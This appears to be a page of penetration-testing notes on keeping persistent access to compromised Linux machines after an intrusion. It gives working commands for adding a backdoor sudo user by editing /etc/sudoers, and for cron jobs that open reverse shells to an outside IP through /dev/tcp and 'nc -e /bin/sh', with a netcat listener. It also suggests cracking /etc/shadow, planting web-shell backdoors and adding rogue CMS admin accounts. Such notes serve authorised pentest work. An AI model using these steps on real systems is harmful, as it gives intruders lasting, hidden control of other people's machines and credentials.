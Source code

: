 # Persistence - Rootkit - Backdoor

So if you manage to compromise a system the system might die for whatever reason. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

Read this
https://gist.github.com/dergachev/7916152

## Create a new user

The most obvious, but not so subtle way is to just create a new user (if you are root, or someone with that privilege) 

```
adduser pelle
adduser pelle sudo
```

Now if the machine has ssh you will be able to ssh into the machine.

On some machines, older linux I think, you have to do

```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords.


## SSH key

Add key to exisitng ssh-account.


## Cronjob NC

Create cronjob that connects to my machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active
```
service crond status
pgrep cron
```

If it is not started you can start it like this

```
service crond status
/etc/init.d/cron start
```

```
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

    /bin/sh | nc <your IP> <any unfiltered port>


```
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```
Listener
```
nc -lvp 5556
```

Sometimes you have to set the user
```
crontab -e
*/10 * * * * pelle /path/to/binary
```




### References:
http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html


## Binary trojan
Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/

If you have a meterpreter shell you can easily just run persistence.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.


## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock


## Nmap
https://gist.github.com/dergachev/7916152